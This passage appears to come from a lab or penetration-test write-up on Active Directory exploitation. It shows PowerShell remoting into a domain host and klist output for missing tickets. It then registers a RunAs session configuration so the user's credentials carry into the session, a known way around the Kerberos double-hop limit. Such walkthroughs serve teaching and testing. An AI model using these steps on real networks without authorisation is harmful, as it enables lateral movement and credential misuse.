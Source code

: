 ## EXPLOITATION:

#### i. Establish a session using PSRemoting
1. Enter a session for the domain user, __BOSSMANBEN\\GConcy__:
   ```powershell
   Enter-PSSession -ComputerName 192.168.150.128 -Credential BOSSMANBEN\GConcy
   ```
   - Enter the credentials for BOSSMANBEN\GConcy in the password prompt

   <span></span>

2. Check for cached tickets using `klist`:
   ```
   Current LogonId is 0:0xc7fbc
   Error calling API LsaCallAuthenticationPackage (ShowTickets substatus): 1312

   klist failed with 0xc000005f/-1073741729: A specified logon session does not exist. It may already have been terminated.
   ```
   - The current established session doesn't seem to be a __*recognized*__ session.

   <span></span>

3. Register the current session while inside the PSSession created:
   ```powershell
   Register-PSSessionConfiguration -Name GodConcy -RunAsCredential BOSSMANBEN\GConcy
   ```
   ```
   WARNING: When RunAs is enabled in a Windows PowerShell session configuration, the Windows security model cannot enforce a security 
   boundary between different user sessions that are created by using this endpoint. Verify that the Windows PowerShell runspace 
   configuration is restricted to only the necessary set of cmdlets and capabilities.
   WARNING: Register-PSSessionConfiguration may need to restart the WinRM service if a configuration using this name has recently been 
   unregistered, certain system data structures may still be cached. In that case, a restart of WinRM may be required.
   All WinRM sessions connected to Windows PowerShell session configurations, such as Microsoft.PowerShell and session configurations that 
   are created with the Register-PSSessionConfiguration cmdlet, are disconnected.


   WSManConfig: Microsoft.WSMan.Management\WSMan::localhost\Plugin

   Type            Keys                                Name
   ----            ----                                ----
   Container       {Name=GodConcy}                     GodConcy
   ...omitted...
   ```

   ```powershell
   Get-PSSessionConfiguration
   ```
   ```
   Name          : GodConcy
   PSVersion     : 5.1
   StartupScript :
   RunAsUser     : BOSSMANBEN\GConcy
   Permission    : NT AUTHORITY\INTERACTIVE AccessAllowed, BUILTIN\Administrators AccessAllowed, BUILTIN\Remote Management Users AccessAllowed
   
   ...omitted...
   ```
   - Enter the credentials for BOSSMANBEN\GConcy in the password prompt
